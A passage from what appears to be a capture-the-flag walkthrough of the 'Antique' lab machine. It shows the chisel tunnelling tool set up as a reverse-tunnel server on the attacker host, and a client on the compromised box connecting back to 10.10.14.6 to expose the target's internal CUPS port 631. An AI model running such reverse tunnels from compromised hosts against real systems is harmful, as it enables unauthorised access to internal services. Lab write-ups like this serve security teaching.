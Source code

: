     2022-05-02 13:23:22 (2.78 MB/s) - ‘chisel_1.7.7_linux_amd64’ saved [8077312/8077312]



On my host, I'll run the same binary as the server:



    oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 9000 --reverse
    2022/05/02 13:29:45 server: Reverse tunnelling enabled
    2022/05/02 13:29:45 server: Fingerprint nAhajozV41EjYejrhftqY6829U+uzLWqa/ESPyvCIFM=
    2022/05/02 13:29:45 server: Listening on http://0.0.0.0:9000



`-p 9000` sets that as the port to listen on (any port will do, but the
default is 8080, which Burp is already using on my host), and
`--reverse` allows for reverse tunnels, so that a client can open a
listening port on my VM.

Now I'll connect to it from Antique:



    lp@antique:/dev/shm$ chmod +x chisel_1.7.7_linux_amd64
    lp@antique:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:9000 R:9631:localhost:631                                              
    <x_amd64 client 10.10.14.6:9000 R:9631:localhost:631
    2022/05/02 13:30:16 client: Connecting to ws://10.10.14.6:9000
    2022/05/02 13:30:17 client: Connected (Latency 90.506923ms)



This tells `chisel` to connect to my VM on 9000, and to create a
listening on my VM on 9631 (I can't use ports under 1024 because I
didn't run the server as root). Any traffic that hits that listening
port will be forwarded by `chisel` to Antique and then send to port 631
on Antique from Antique.

On my host, pointing Firefox at `localhost:9631` loads the page.

#### Page

The page is a CUPS page:
